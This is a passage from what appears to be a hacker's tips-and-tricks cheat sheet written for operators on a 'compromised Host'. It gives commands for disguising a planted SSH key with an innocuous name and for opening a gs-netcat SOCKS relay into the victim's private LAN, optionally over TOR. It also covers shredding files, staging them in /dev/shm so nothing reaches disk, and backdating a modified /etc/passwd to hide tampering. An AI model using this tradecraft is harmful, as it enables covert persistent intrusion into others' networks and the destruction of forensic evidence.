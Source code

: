 Tip: Change the name at the end of the ssh public keyfile to something obscure like *backup@ubuntu* or the admin's real name:
```
$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCktFkgm40GDkqYwJkNZVb+NLqYoUNSPVPLx0VDbJM0
[...]
u1i+MhhnCQxyBZbrWkFWyzEmmHjZdAZCK05FRXYZRI9yadmvo7QKtRmliqABMU9WGy210PTOLMltbt2C
c3zxLNse/xg0CC16elJpt7IqCFV19AqfHnK4YiXwVJ+M+PyAp/aEAujtHDHp backup@ubuntu
```
<a id="bdra-anchor"></a>
**6.iii. Remote Access to an entire network**

Install [gs-netcat](https://github.com/hackerschoice/gsocket). It creates a SOCKS relay on the Host's private lan which is accessible through the Global Relay network without the need to run your own server (e.g. directly from your workstation):

```sh
gs-netcat -l -S       # compromised Host
```

Now from your workstation you can connect to ANY host on the Host's private LAN:
```sh
gs-netcat -p 1080    # Your workstation.

# Access route.local:22 on the Host's private LAN from your Workstation:
socat -  "SOCKS4a:127.1:route.local:22"
```

Use -T to use TOR.

---
<a id="sh-anchor"></a>
<a id="shsf-anchor"></a>
**7.i. Shred & Erase a file**

```sh
shred -z foobar.txt
```

<a id="shsfwo-anchor"></a>
**7.ii. Shred & Erase without *shred***
```sh
FN=foobar.txt; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```
Note: Or deploy your files in */dev/shm* directory so that no data is written to the harddrive. Data will be deleted on reboot.

Note: Or delete the file and then fill the entire harddrive with /dev/urandom and then rm -rf the dump file.

<a id="shrdf-anchor"></a>
**7.iii. Restore the date of a file**

Let's say you have modified */etc/passwd* but the file date now shows that */etc/passwd* has been modifed. Use *touch* to change the file data to the date of another file (in this example, */etc/shadow*)
